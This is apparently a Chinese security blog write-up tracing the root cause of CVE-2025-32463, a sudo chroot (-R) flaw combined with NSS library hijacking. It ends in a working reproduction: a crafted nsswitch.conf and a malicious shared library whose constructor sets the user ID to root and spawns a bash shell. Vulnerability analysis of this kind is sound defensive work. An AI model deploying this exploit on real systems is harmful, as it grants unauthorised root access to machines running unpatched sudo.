





# 针对 CVE-2025-32463代码跟踪-先知社区

> **来源**: https://xz.aliyun.com/news/18486  
> **文章ID**: 18486

---

既上次对这个罕见的sudo漏洞的复现利用已经过去了几天，陆陆续续各大发行版已经推送了修复补丁，各个安全从业者也复现了漏洞，但似乎除了stratascale并没有人尝试追踪漏洞代码及其成因，虽然有些难度但还是想尝试下

## 什么

CVE-2025-32463问题出在sudo的-R功能上

简单来说这个漏洞的是利用了 Sudo 在处理 chroot 选项时的一个缺陷联合nss劫持，即使一个普通用户没有任何 Sudo 权限，他们也可以利用这个漏洞将权限提升到 root

## 为什么

从github clone下代码，在log中可以找到这次修复，show一份出来方便分析



先看到sudoers.c

```
diff --git a/plugins/sudoers/sudoers.c b/plugins/sudoers/sudoers.c
index ad2fa2f61..1a8031740 100644
--- a/plugins/sudoers/sudoers.c
+++ b/plugins/sudoers/sudoers.c
@@ -1092,7 +1092,6 @@ init_vars(struct sudoers_context *ctx, char * const envp[])
 int
 set_cmnd_path(struct sudoers_context *ctx, const char *runchroot)
 {
-    struct sudoers_pivot pivot_state = SUDOERS_PIVOT_INITIALIZER;
     const char *cmnd_in;
     char *cmnd_out = NULL;
     char *path = ctx->user.path;
@@ -1111,13 +1110,7 @@ set_cmnd_path(struct sudoers_context *ctx, const char *runchroot)
     if (def_secure_path && !user_is_exempt(ctx))
     path = def_secure_path;
 
-    /* Pivot root. */
-    if (runchroot != NULL) {
-	if (!pivot_root(runchroot, &pivot_state))
-	    goto error;
-    }
-
-    ret = resolve_cmnd(ctx, cmnd_in, &cmnd_out, path);
+    ret = resolve_cmnd(ctx, cmnd_in, &cmnd_out, path, runchroot);
     if (ret == FOUND) {
     char *slash = strrchr(cmnd_out, '/');
     if (slash != NULL) {
@@ -1134,14 +1127,8 @@ set_cmnd_path(struct sudoers_context *ctx, const char *runchroot)
     else
     ctx->user.cmnd = cmnd_out;
 
-    /* Restore root. */
-    if (runchroot != NULL)
-	(void)unpivot_root(&pivot_state);
-
     debug_return_int(ret);
 error:
-    if (runchroot != NULL)
-	(void)unpivot_root(&pivot_state);
     free(cmnd_out);
     debug_return_int(NOT_FOUND_ERROR);
 }
```

看的出来入口为

```
/* Pivot root. */
    if (runchroot != NULL) {
            if (!pivot_root(runchroot, &pivot_state))
        goto error;
    }
```

[Revert pivot\_root and go back to prepending the new root directory. · sudo-project/sudo@fdafc2c](https://github.com/sudo-project/sudo/commit/fdafc2ceb36382b07e604c0f39903d56bef54016#diff-692196d7d74cbc97387b54a4a103a0dd96c8c7a37dce33022a5eeb7ce3f793b7)

跟踪runchroot可以找到他来自ctx->runas.chroot，大致可以推断为chroot的路径



来到pivot.c



这里他就切入了用户可控的chroot路径，这时理论上sudo是root权限

## NSS(Name Service Switch)

是一种在Unix-like 操作系统中用于配置如何访问各种系统数据库和名称解析机制的特性，一般通过/etc/nsswitch.conf文件查找信息源，例如我本地的nsswitch文件

```
# Begin /etc/nsswitch.conf

passwd: files systemd
group: files systemd
shadow: files systemd

hosts: files mdns_minimal [NOTFOUND=return] dns resolve
networks: files

protocols: files
services: files
ethers: files
rpc: files

# End /etc/nsswitch.conf
```

而他存在的一个小特性使得可控的chroot路径变为了突破口，就是信息源也可以被解析为共享库文件，例如上面的systemd在我本机中指向的就是`libnss_systemd.so.2` 这个文件，利用这个就可以尝试伪造nsswiitch.conf来调用事先准备好的库文件

可以做一个尝试

### demo——修改自stratascale

```
#include <fcntl.h>
#include <unistd.h>
#include <sys/types.h>
#include <grp.h>
#include <pwd.h>

int main() {
    chdir("/tmp/stage");
    int saved_root = open("/", O_RDONLY);
    int saved_cwd = open(".", O_RDONLY);
    chroot("/tmp/stage");
    chdir("/");
    getpwnam("root"); 

    fchdir(saved_root);
    chroot(".");
    fchdir(saved_cwd);
    getgrnam("got root?");
}
```

编译

```
sudo gcc -g -Wall -o /bin/chwoot-demo /tmp/chwoot-demo.c
```

接下来准备chroot根目录

```
neko@aosc-neko205 [ tmp ] $ tree stage
stage
├── etc
│   └── nsswitch.conf
└── libnss_
    ├── woot1337.c
    └── woot1337.so.2

3 directories, 3 files
```

woot1337.c文件内容

```
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

// __attribute__((constructor)) 自动执行
__attribute__((constructor))
void woot(void) {
    setreuid(0, 0);
    setregid(0, 0);
    chdir("/");
    printf("check!!!");
}

```

可以尝试执行chwoot-demo一切正常则会看到check被打印出来证明woot1337.so.2被执行了


方便理解，切换到root权限运行，使用strace跟踪下



符合预期

至此这个漏洞的成因理解起来就不难了

```
不安全的chroot调用--->不受信环境--->利用NSS机制加载恶意动态库--->权限提升
```

## sudo漏洞复现

准备如下文件结构

```
root@aosc-neko205 [ tmp ] # tree sudo_exploit.f7lAwR/
sudo_exploit.f7lAwR/
├── libnss_
│   └── woot1337.so.2
├── woot
│   └── etc
│       └── nsswitch.conf
└── woot1337.c

4 directories, 3 files
root@aosc-neko205 [ tmp ] # 

```

与demo有些差异，复现所需libnss文件夹在chroot外需要注意

nsswitch.conf

```
passwd: /woot1337
```

woot1337.c

```
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor))
void woot(void) {
    setreuid(0, 0);
    setregid(0, 0);
    chdir("/");
    execl("/bin/bash", "/bin/bash", NULL);
}
```

准备好后使用sudo -R调用即可



[Sudo Manual](https://www.sudo.ws/docs/man/1.9.16/sudo.man/)

[chroot(8)](https://man.freebsd.org/cgi/man.cgi?chroot(8))

[Name Service Switch (The GNU C Library)](https://www.gnu.org/software/libc/manual/2.26/html_node/Name-Service-Switch.html)

[Stratascale](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
